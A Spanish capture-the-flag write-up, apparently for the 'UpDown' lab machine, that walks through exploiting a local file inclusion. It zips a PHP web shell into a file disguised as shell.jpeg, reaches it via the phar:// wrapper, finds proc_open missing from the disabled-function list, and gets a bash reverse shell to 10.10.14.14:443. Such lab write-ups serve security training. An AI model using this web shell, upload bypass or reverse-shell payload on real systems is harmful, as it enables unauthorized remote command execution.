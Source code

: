 Queda tirar de la vulnerabilidad "phar"
```console  
└─$ zip shell.jpeg shell.php   # shell php -> <?php system($_GET[‘cmd’]); ?> 
└─$ file shell.jpeg    # shell.cucuxii: Zip archive data   # Aunque tenga la extension jpeg esto es un zip.
```
En /uploads aparece un nuevo directorio, ahi dentro está shell.jpeg  
![updown4](https://user-images.githubusercontent.com/96772264/215056204-2a60d2c2-4dab-41f3-9095-d4a337e0ae72.PNG)

Si accedemos con el wrapper phar:// con el LFI al archivo de dentro (shell.php que es shell porque concatena ello solo el .php)  
> phar://ruta_del_archivo_madre(shell.jpeg)/archivo_hijo(shell)/     
```console
└─$ curl -s -H "Special-Dev: only4dev" 'http://dev.siteisup.htb/?page=phar://uploads/1526e941f20f74050a82951a5bda79e2/shell.jpeg/shell' -I
HTTP/1.0 500 Internal Server Error
```
El error 500 se debe a que hay una funcion prohibida.  
Si cambiamos el contenido de shell.php a  ```<?php phpinfo(); ?>"``` y  repetimos el proceso tenemos el documento en la web:  

Si copiamos las disabled functions las metemos en el archivo "disabled_functions" y con vim sustituimos las , por retorno de  carro -> ```:%s/,/\r/g```
Acabamos con una lista bien clara de las funciones prohibidas entre las que estan system, exec o shell_exec entre todas.  

![updown5](https://user-images.githubusercontent.com/96772264/215056216-ec6cf51c-dfee-4718-8bf7-5e6c777f43f8.PNG)

Esta es una lista de las funciones que nos permiten ejecutar comandos (lo metemos en un archivo llamado dangerous)
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,ld,mail
```
Si les hacemos el mismo formateo que el otro archivo (quitando las ",")

```
└─$ diff <(cat dangerous) <(cat disabled_function)
# < proc_open es la unica que les ha faltado quitar
```

Nunca he usado esta funcion, en la web de [php](https://www.php.net/manual/en/function.proc-open.php)
```php
<?php
$cmd="bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'";
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w") // stderr is a pipe that the child will write to
);
$process = proc_open($cmd, $descriptorspec, $pipes);
?>
```
```console
└─$ zip shell.jpeg proc_open.php
```
Se sube
```
└─$ curl -s -H "Special-Dev: only4dev" 'http://dev.siteisup.htb/?page=phar://uploads/11b42026fc92308ec770427677734fa7/shell.jpeg/proc_open'
└─$ sudo nc -nlvp 443
www-data@updown:/var/www/dev$ 
```
------------------------------------------------